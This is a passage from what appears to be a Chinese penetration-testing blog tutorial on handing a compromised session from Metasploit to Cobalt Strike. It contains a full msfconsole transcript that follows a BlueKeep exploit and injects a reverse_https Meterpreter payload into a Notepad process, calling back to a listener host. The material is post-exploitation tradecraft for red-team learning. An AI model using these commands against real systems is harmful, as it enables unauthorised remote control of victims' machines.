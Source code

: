 设置要传递的会话 session，如果不知道自己的 session id，可以通过 sessions -l 查看，我这里待传递的 session id 为 4

```
 set session 4
```

开始会话传递

```
run
```

整体过程如下：

```
msf5 > background 
[*] Backgrounding session 4...

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > use exploit/windows/local/payload_inject

msf5 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https

msf5 exploit(windows/local/payload_inject) > set lhost 192.168.175.200
lhost => 192.168.175.200

msf5 exploit(windows/local/payload_inject) > set lport 443
lport => 443

msf5 exploit(windows/local/payload_inject) > set DisablePayloadHandler True
DisablePayloadHandler => true

msf5 exploit(windows/local/payload_inject) > set PrependMigrate True
PrependMigrate => True

msf5 exploit(windows/local/payload_inject) >  set session 4
session => 4

msf5 exploit(windows/local/payload_inject) > run
[*] Running module against WIN-T0UES7KBMJ5
[*] Spawned Notepad process 544
[*] Injecting payload into 544
[*] Preparing 'windows/meterpreter/reverse_https' for PID 544
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_19-11-30.png)

此时，来到 Cobalt Strike 下已经可以看到传递过来的会话了

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-08-39.png)

# 0x02 Cobalt Strike 会话传递到 Metasploit Framework 

## 1、Cobalt Strike 上的操作
